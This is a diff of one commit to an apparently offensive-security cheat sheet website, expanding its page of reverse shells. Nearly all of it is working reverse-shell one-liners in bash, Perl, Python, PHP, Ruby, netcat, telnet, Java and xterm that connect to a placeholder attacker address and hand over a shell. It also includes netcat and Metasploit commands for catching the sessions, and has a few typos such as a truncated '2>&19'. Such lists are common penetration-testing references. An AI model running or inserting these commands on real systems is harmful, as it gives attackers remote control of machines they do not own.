

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/shells.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Added more shells

```diff
--- a/_topics/shells.md
+++ b/_topics/shells.md
@@ -11,6 +11,7 @@ tags:
     - python
     - reverse
     - ruby
+    - telnet
     - xterm
 ---
 # shells
@@ -18,39 +19,71 @@ tags:
 ### Reverse Shells
 Bash
 
-`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
+`bash -i >& /dev/tcp/<attackerip>/<attacherport> 0>&1`
+
+`0<&196;exec 196<>/dev/tcp/<attackerip>/<attackerport>; sh <&196 >&196 2>&19`
+
+`exec 5<>/dev/tcp/<attackerip>/<attackerport>
+cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
+while read line 0<&5; do $line 2>&5 >&5; done`
+
+`exec 5<>/dev/tcp/<attackerip>/<attackerport>; cat <&5 | while read line; do $line 2>&5 >&5; done`
 
 Perl
 
-`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
+`perl -e 'use Socket;$i="<attackerip>";$p=<attackerport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
+
+`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<attackerip>:<attackerport>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` _(no /bin/sh)_
+
+`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<attackerip>:<attackerport>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` _(Windows)_
 
 Python
 
-`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
+`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attackerip>",<attackerport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
 
 PHP
 
-`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
+`php -r '$sock=fsockopen("<attackerip>",<attackerport>);exec("/bin/sh -i <&3 >&3 2>&3");'`
 
 Ruby
 
-`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
+`ruby -rsocket -e'f=TCPSocket.open("<attackerip>",<attackerport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
+
+`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'` _(no /bin/sh)_
+
+`ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'` _(Windows)_
 
 Netcat
 
-`nc -e /bin/sh 10.0.0.1 1234`
+`nc -e /bin/sh <attackerip> <attackerport>`
 
-`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` _(no `-e` flag)_
+`/bin/sh | nc <attackerip> <attackerport>`
+
+`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerip> <attackerport> >/tmp/f` _(no `-e` flag)_
+
+Telnet
+
+`rm -f /tmp/p; mknod /tmp/p p && telnet <attackerip> <attackerport> 0/tmp/p`
+
+`telnet <attackerip> <attackerport1> | /bin/bash | telnet <attackerip> <attackerport2>` _(locally listen on attackerport2)_
 
 Java
 
-`r = Runtime.getRuntime()
-p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
+`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<attackerip>/<attackerport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
 p.waitFor()`
 
 xterm
 
-`xterm -display 10.0.0.1:1` _(port 6001)_
+`xterm -display <attackerip>:1` _(port 6001)_
 
 - Locally, to catch the incoming session on port 6001 `Xnest :1`
-- Locally, to authorise the target's connection `xhost +targetip`
+- Locally, to authorise the target's connection `xhost +<targetip>`
+
+### Catching Shells
+Metasploit
+
+`use exploit/multi/handler`
+
+Netcat
+
+`nc -lvnp <attackerport>` _(can use `-vv`/`-vvv` to debug with extra verbosity)_
```
